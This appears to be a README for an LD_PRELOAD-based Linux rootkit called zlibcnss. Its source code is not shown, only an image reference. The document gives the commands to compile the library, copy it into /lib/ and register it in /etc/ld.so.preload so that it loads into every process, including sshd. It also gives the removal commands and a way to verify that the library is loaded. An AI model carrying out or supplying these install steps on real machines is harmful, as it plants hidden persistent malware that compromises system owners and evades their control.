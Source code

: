 


Compile and install:
```bash
 gcc zlibcnss.c -o zlibcnss.so -fPIC -shared -ldl -D_GNU_SOURCE
 cp zlibcnss.so /lib/
 echo "/lib/zlibcnss.so" > /etc/ld.so.preload
```


## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
rm /etc/ld.so.preload
rm /lib/zlibcnss.so
rm /lib/x86_64-linux-gnu/zlibcnss.so
```



### Verify installation
```bash
ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcnss.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcnss.so
```

